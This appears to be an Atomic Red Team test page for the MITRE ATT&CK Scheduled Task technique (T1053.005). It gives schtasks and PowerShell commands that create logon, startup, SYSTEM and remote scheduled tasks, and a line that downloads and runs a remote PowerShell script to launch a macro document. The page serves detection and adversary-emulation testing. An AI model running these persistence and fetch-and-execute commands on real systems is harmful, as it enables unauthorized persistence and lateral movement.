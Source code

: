 # T1053.005 - Scheduled Task
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1053/005)
<blockquote>Adversaries may abuse the Windows Task Scheduler to perform task scheduling for initial or recurring execution of malicious code. There are multiple ways to access the Task Scheduler in Windows. The <code>schtasks</code> can be run directly on the command line, or the Task Scheduler can be opened through the GUI within the Administrator Tools section of the Control Panel. In some cases, adversaries have used a .NET wrapper for the Windows Task Scheduler, and alternatively, adversaries have used the Windows netapi32 library to create a scheduled task.

The deprecated [at](https://attack.mitre.org/software/S0110) utility could also be abused by adversaries (ex: [At (Windows)](https://attack.mitre.org/techniques/T1053/002)), though <code>at.exe</code> can not access tasks created with <code>schtasks</code> or the Control Panel.

An adversary may use Windows Task Scheduler to execute programs at system startup or on a scheduled basis for persistence. The Windows Task Scheduler can also be abused to conduct remote Execution as part of Lateral Movement and or to run a process under the context of a specified account (such as SYSTEM).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Scheduled Task Startup Script](#atomic-test-1---scheduled-task-startup-script)

- [Atomic Test #2 - Scheduled task Local](#atomic-test-2---scheduled-task-local)

- [Atomic Test #3 - Scheduled task Remote](#atomic-test-3---scheduled-task-remote)

- [Atomic Test #4 - Powershell Cmdlet Scheduled Task](#atomic-test-4---powershell-cmdlet-scheduled-task)

- [Atomic Test #5 - Task Scheduler via VBA](#atomic-test-5---task-scheduler-via-vba)


<br/>

## Atomic Test #1 - Scheduled Task Startup Script
Run an exe on user logon or system startup.  Upon execution, success messages will be displayed for the two scheduled tasks. To view
the tasks, open the Task Scheduler and look in the Active Tasks pane.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
schtasks /create /tn "T1053_005_OnLogon" /sc onlogon /tr "cmd.exe /c calc.exe"
schtasks /create /tn "T1053_005_OnStartup" /sc onstart /ru system /tr "cmd.exe /c calc.exe"
```

#### Cleanup Commands:
```cmd
schtasks /delete /tn "T1053_005_OnLogon" /f >nul 2>&1
schtasks /delete /tn "T1053_005_OnStartup" /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Scheduled task Local
Upon successful execution, cmd.exe will create a scheduled task to spawn cmd.exe at 20:10.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| task_command | What you want to execute | String | C:&#92;windows&#92;system32&#92;cmd.exe|
| time | What time 24 Hour | String | 72600|


#### Attack Commands: Run with `command_prompt`! 


```cmd
SCHTASKS /Create /SC ONCE /TN spawn /TR #{task_command} /ST #{time}
```

#### Cleanup Commands:
```cmd
SCHTASKS /Delete /TN spawn /F >nul 2>&1
```





<br/>
<br/>

## Atomic Test #3 - Scheduled task Remote
Create a task on a remote system.

Upon successful execution, cmd.exe will create a scheduled task to spawn cmd.exe at 20:10 on a remote endpoint.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| task_command | What you want to execute | String | C:&#92;windows&#92;system32&#92;cmd.exe|
| time | What time 24 Hour | String | 72600|
| target | Target | String | localhost|
| user_name | Username to authenticate with, format: DOMAIN&#92;User | String | DOMAIN&#92;user|
| password | Password to authenticate with | String | At0micStrong|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
SCHTASKS /Create /S #{target} /RU #{user_name} /RP #{password} /TN "Atomic task" /TR "#{task_command}" /SC daily /ST #{time}
```

#### Cleanup Commands:
```cmd
SCHTASKS /Delete /S #{target} /RU #{user_name} /RP #{password} /TN "Atomic task" /F >nul 2>&1
```





<br/>
<br/>

## Atomic Test #4 - Powershell Cmdlet Scheduled Task
Create an atomic scheduled task that leverages native powershell cmdlets.

Upon successful execution, powershell.exe will create a scheduled task to spawn cmd.exe at 20:10.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
$Action = New-ScheduledTaskAction -Execute "calc.exe"
$Trigger = New-ScheduledTaskTrigger -AtLogon
$User = New-ScheduledTaskPrincipal -GroupId "BUILTIN\Administrators" -RunLevel Highest
$Set = New-ScheduledTaskSettingsSet
$object = New-ScheduledTask -Action $Action -Principal $User -Trigger $Trigger -Settings $Set
Register-ScheduledTask AtomicTask -InputObject $object
```

#### Cleanup Commands:
```powershell
Unregister-ScheduledTask -TaskName "AtomicTask" -confirm:$false >$null 2>&1
```





<br/>
<br/>

## Atomic Test #5 - Task Scheduler via VBA
This module utilizes the Windows API to schedule a task for code execution (notepad.exe). The task scheduler will execute "notepad.exe" within
30 - 40 seconds after this module has run

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| ms_product | Maldoc application Word | String | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1" -UseBasicParsing) 
Invoke-MalDoc -macroFile "PathToAtomicsFolder\T1053.005\src\T1053.005-macrocode.txt" -officeProduct "#{ms_product}" -sub "Scheduler"
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 } 
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
